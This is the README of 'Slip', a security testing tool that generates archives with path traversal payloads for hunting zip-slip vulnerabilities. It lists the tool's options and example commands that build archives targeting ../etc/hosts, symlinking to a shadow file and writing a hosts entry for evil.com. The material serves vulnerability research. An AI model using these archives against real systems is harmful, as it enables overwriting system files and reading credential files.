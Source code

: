 # Slip

Slip is a malicious archive generator to exploit path traversal vulnerabilities.

Slip makes it easy to create multiple archives containing path traversal payloads in file name fields, rendering the extraction of the archive a potentially dangerous operation. With this approach it is possible to find and exploit "[zip-slip](https://security.snyk.io/research/zip-slip-vulnerability)" type vulnerabilities.

## Motivation

Most commonly used tools rarely support path traversal payloads in archives, this makes it hard and time consuming to create malicious archives when attempting to find vilnerabilities in a software. With slip it's really convenient to create higly customizable archives that fit most situations.

## Features

Slip is a feature rich script capable of satisfying most "zip-slip" hunting needs, in particular the script:

- Supports **zip**, **tar**, **7z**, **jar**, **war**, **apk** and **ipa** archives (and every compression algorithm supported by each format)
- Allows to hunt for both **arbitrary file write** and **arbitrary file read** vulnerabilities (using paths or symlinks)
- Supports multiple payloads of different types (paths/symlinks)
- Supports the automatic generation of path traversal payloads to look for a file at different "depths" 
- Supports the usage of custom "dotdotslash" sequences
- Implements a "massfind" mode, that uses a payload dictionary to create the archive (dictionary provided 😉)

## Getting started

### Installation
Clone the repo, install the requirements (`pip install -r requirements.txt`) and you're good to go!

### Usage
```
Usage: slip.py [OPTIONS] ARCHIVE_NAME

  Script to generate "zipslip" and "zip symlink" archives.

  ARCHIVE-NAME is the name of the archive to be created.

Options:
  -a, --archive-type [zip|tar|7z|jar|war|apk|ipa]
                                  Type of the archive.  [default: zip]
  -c, --compression [none|deflate|bzip2|lzma|lzma2|ppmd|brotli|zstandard|copy]
                                  Compression algorithm to use in the archive.
  -p, --paths TEXT                Comma separated paths to include in the
                                  archive.
  -s, --symlinks TEXT             Comma separated symlinks to include in the
                                  archive. To name a symlink use the syntax:
                                  path:name
  --file-content TEXT             Content of the files in the archive,
                                  mandatory if paths are used.
  --force-name                    If set, the filename will be forced exactly
                                  as provided.
  --search INTEGER                If set, paths and symlink will generate
                                  multiple traversal paths to try and find the
                                  target file or path at different depths.
                                  [default: 0]
  --dotdotslash TEXT              Dot dot slash sequence to use in search
                                  mode.  [default: ../]
  --mass-find TEXT                Name of the file to find. It will create an
                                  archive with numerous path traversal
                                  payloads aimed to find the specified file
                                  name. WARNING: it uses A LOT of payloads,
                                  use with caution.
  --mass-find-mode [paths|symlinks]
                                  Mass-find mode to use  [default: symlinks]
  --mass-find-dict FILENAME       Mass-find payload dictionary  [default:
                                  path_traversal_dict.txt]
  --mass-find-placeholder TEXT    Mass-find placeholder for filename in
                                  dictionary  [default: {FILE}]
  -v, --verbose                   Verbosity trigger.
  --help                          Show this message and exit.
```

### Usage example

Create a tar.bz2 archive containing 2 explicit paths: 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "../etc/hosts, ../../etc/hosts" archive
```

Create a zip archive containing an explicit path and an explicit symlink: 
```
python3 slip.py --archive-type zip --compression deflate --paths "../etc/hosts" --symlinks "../etc/shadows" archive
```

Create a tar.bz2 archive with 4 payloads to search for "config.ini" at 3 different depths (it also uses Windows flavor dot dot slash): 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "config.ini" --search 3 --dotdotslash "..\\" out
```
The archive will contain:
```
config.ini
..\config.ini
..\..\config.ini
..\..\..\config.ini
```

Create a 7z archive with an explicit path and an explicit file content:
```
python3 slip.py --archive-type 7z --compression bzip2 --paths "../etc/hosts" --file-content "127.0.0.1    evil.com" archive
```

Create a 7z archive with a named symlink:
```
python3 slip.py --archive-type zip --symlinks "../etc/hosts:linkname" archive  
```
This technique is really useful in case directory traversal payloads are filtered in paths but not in symlink, as it would be possible to achieve an arbitrary write file referring to the named symlink as parth of the path (e.g. symlink: `../etc/:foo`, path: `foo/hosts`).

Create a tar archive with multiple payloads (from the default mass-find dictionary) to find the `/etc/host/` file:
```
python3 slip.py --archive-type tar --mass-find "/etc/hosts" --mass-find-mode symlinks archive
```
⚠️ WARNING: mass-find mode supports paths, this translates to a bruteforce attempt to rewrite a specific file, but it uses A LOT of payloads, so the result is unpredictable. Use with caution.

## Notes
- Depending on the library that handles the decompression, results may vary greatly.

  Different compression algorithms can trigger different behaviours during the extraction, but also the usage of certain path traversal payloads in names or the co-presence of path traversal payloads in names and symlink can lead to weird behaviours during the extraction. Many combinations of compression algorithms, archive types and payloads are relatively untested and should be evaluated on a case by case basis to obtain the best results.

- Archive types: jar|war|apk|ipa are supported as simple zip archives.  
The archive format is correct, but valid files should contain compatible contents.
Valid contents can be set manually and are not yet supported by slip.
